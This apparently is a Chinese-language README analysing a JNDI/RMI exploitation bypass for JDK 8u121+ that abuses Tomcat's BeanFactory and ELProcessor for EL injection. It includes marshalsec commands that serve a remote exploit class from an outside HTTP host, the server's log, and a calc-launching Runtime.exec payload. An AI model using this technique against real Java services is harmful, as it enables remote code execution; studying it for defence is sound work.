 # 参考
- [marshalsec启动的普通RMI服务器](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/RMIRefServer.java#L299)
- [自己写的普通的RMI服务器](https://github.com/shadowsock5/JDNI-Bypass-JDK-By-RMI/blob/master/NormalRMIServer.java)
- [绕过的基于Tomcat的RMI服务器](https://github.com/shadowsock5/JDNI-Bypass-JDK-By-RMI/blob/master/TomcatRMIServer.java)


# JDNI-Bypass-JDK8u121-By-RMI

```bash
javac -cp  "D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" .\TomcatRMIServer.java
java -cp ".;D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" TomcatRMIServer
```

![](imgs/RMI-JDK-bypass-EL-injection-test.gif)

# 代码调用流程

## 1、使用常规的marshalsec启动RMI服务：
```bash
java -cp D:\repos\marshalsec\target\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.85.1:8888/#ExploitWin
```

com.sun.jndi.rmi.registry.RegistryContext.java


```java
    public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else {
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));
        }
    }
```

这一步是实际发送RMI请求的地方，调用
jdk1.8.0_201\jre\lib\rt.jar!\sun\rmi\registry\RegistryImpl_Stub#lookup
```java

java.rmi.Remote var2 = this.registry.lookup(var1.get(0));
```

marshalsec的控制台打印log：
```
Have connection from /a.b.c.d:45904
Reading message...
Is RMI.lookup call for ExploitWin 2
Sending remote classloading stub targeting http://192.168.85.1:8888/ExploitWin.class
Closing connection
```

拿到Remote对象（具体地，是com.sun.jndi.rmi.registry.ReferenceWrapper对象）之后，继续调用：
jdk1.8.0_201\jre\lib\rt.jar!\com\sun\jndi\rmi\registry\RegistryContext.class#decodeObject(Remote var1, Name var2)
```java
    private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            Reference var8 = null;
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } else if (var3 instanceof Referenceable) {
                var8 = ((Referenceable)((Referenceable)var3)).getReference();
            }

            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
```

因为ReferenceWrapper extends UnicastRemoteObject implements RemoteReference
所以它是instanceof RemoteReference，于是调用((RemoteReference)var1).getReference()
```java
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } 
```
然后调用
```java
            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
```
这里if有三个条件，同时满足的情况下会抛出异常。无法进入后面的NamingManager.getObjectInstance了。

第一个条件，肯定var8不为null，它是var3赋值过来的；
第三个条件，在8u121及以上，这个类都有这么一个static代码块，使`com.sun.jndi.rmi.object.trustURLCodebase`设置为false。
```java
    static {
        PrivilegedAction var0 = () -> {
            return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
        };
        String var1 = (String)AccessController.doPrivileged(var0);
        trustURLCodebase = "true".equalsIgnoreCase(var1);
    }
```
第二个条件，
```java
var8.getFactoryClassLocation() != null
```
所以只能寄希望于`var8.getFactoryClassLocation()`返回null了。


## 2、使用绕过方式启动RMI服务

### javax.naming.spi.NamingManager#getObjectInstance

```java
// 拿到factory的name，这里是我们通过Reference传进去的org.apache.naming.factory.BeanFactory
String f = ref.getFactoryClassName();

// 从这个名字，和Reference中拿到ObjectFactory
ObjectFactory factory = getObjectFactoryFromReference(ref, f);

// 最后调用这个
factory.getObjectInstance(ref, name, nameCtx, environment);
```

#### javax.naming.spi.NamingManager#getObjectFactoryFromReference
```java
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);    // 尝试用本地的TomcatEmbeddedWebappClassLoader加载factory类org.apache.naming.factory.BeanFactory
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {   // 若本地未找到，才会尝试从factoryLocation（url）里远程加载
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;    // 最后调用这个factory类的无参构造器构造出一个实例
    }
```

### => org.apache.naming.factory.BeanFactory#getObjectInstance
开始就进行参数的类型判断，
```java
if (obj instanceof ResourceRef){
    ...
}else{
    return null;
}
```
只有传入的参数是`ResourceRef`类型，才会进入后续的...
所以恶意RMI服务器不能用普通的`Reference`，而必须用`ResourceRef`类型。
```java
String beanClassName = ref.getClassName();    // 拿到class的名字，这里是javax.el.ELProcessor

// 使用类加载器TomcatEmbeddedWebappClassLoader加载javax.el.ELProcessor这个类
ClassLoader tcl = Thread.currentThread().getContextClassLoader();
beanClass = tcl.loadClass(beanClassName);


// 使用其无参构造器构造出这个实例（所以我们构造的这个beanClass需要有无参的构造器）
Object bean = beanClass.getConstructor().newInstance();

// 从ref中拿到forceString这个字段的值（所以需要我们之前构造好）
RefAddr ra = ref.get("forceString");

String value = (String)ra.getContent();

// 如果是,分割的话，将这个内容分割成字符串数组
String[] var18 = value.split(",");

// 对于这个数组中的每一个成员，propName=等号后面的值，param是等号前面的值
int index = param.indexOf(61);  // indexOf(61)就是indexOf("=")
if (index >= 0) {
    propName = param.substring(index + 1).trim();    // eval
    param = param.substring(0, index).trim();        // x
	
// 最后将这个隐射关系存到Map里，即将x这个字符串与eval(String )方法对应起来。
Map<String, Method> forced = new HashMap();
forced.put(param, beanClass.getMethod(propName, new Class[]{String.class}));

// 前面我们根据要实现javax.naming.spi.ObjectFactory接口找到了广泛存在的Tomcat8+中的org.apache.naming.factory.BeanFactory
// 而根据BeanFactory代码中的逻辑，得知我们要找到具有无参构造器，而且接收一个String类型作为参数。


// ra这里是javax.naming.StringRefAddr类型，对应我们之前设置的：
// ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));

value = (String)ra.getContent();    // Runtime.getRuntime().exec("calc")
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);   // propName是"x"
if (method != null) {
    valueArray[0] = value;
	
	// bean是javax.el.ELProcessor对象，这里是调用javax.el.ELProcessor#eval(valueArray)
    method.invoke(bean, valueArray);
    
```
